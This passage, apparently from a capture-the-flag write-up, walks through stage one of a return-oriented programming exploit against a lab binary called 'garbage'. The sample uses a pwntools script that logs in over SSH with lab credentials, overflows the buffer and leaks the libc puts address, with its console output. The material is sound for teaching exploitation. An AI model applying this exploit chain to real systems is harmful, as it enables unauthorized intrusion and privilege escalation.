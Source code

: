 ### Run Stage 1

Putting this all together, I'll use the `pwntools` Python library to
create an ssh connection as margo, and then run the overflow. Here's the
script so far:



    #!/usr/bin/env python

    from pwn import *

    #context.log_level = "DEBUG"
    sshConn = ssh(host='10.10.10.139', user='margo', password='iamgod$08')
    garbage = sshConn.process('garbage')

    junk     = "A" * 136      # offset from pattern
    pop_rdi  = p64(0x40179b)  # rop-tool gadget garbage | grep rdi
    puts_plt = p64(0x401050)  # objdump -D garbage | grep puts@GLIBC
    puts_got = p64(0x404028)  # objdump -D garbage | grep puts@GLIBC
    main     = p64(0x401619)  # objdump -D garbage | grep '<main>' 

    stage_1 = junk + pop_rdi + puts_got + puts_plt
    garbage.sendline(stage_1)
    garbage.recvuntil("access denied.\n")
    leaked_puts = u64(garbage.recvline()[:-1].ljust(8, '\x00'))
    log.success("Leaked puts address: 0x%x" % leaked_puts)



When I run it, I get the leaked address:



    root@kali# python root_shell.py
    [+] Connecting to 10.10.10.139 on port 22: Done
    [*] margo@10.10.10.139:
        Distro    Ubuntu 18.04
        OS:       linux
        Arch:     amd64
        Version:  4.15.0
        ASLR:     Enabled
    [+] Starting remote process 'garbage' on 10.10.10.139: pid 1900
    [+] Leaked puts address: 0x7fd75a5239c0



### Collect Offsets

#### get libc

Since I already have a shell, I can go on box and check libc and get the
version and offsets from there. Another alteriative is to use a tool I
wanted to highlight, [libc
database,](https://github.com/niklasb/libc-database) which is useful for
a case where you can get a leak, but perhaps don't already have a low
priv shell to get the libc version.
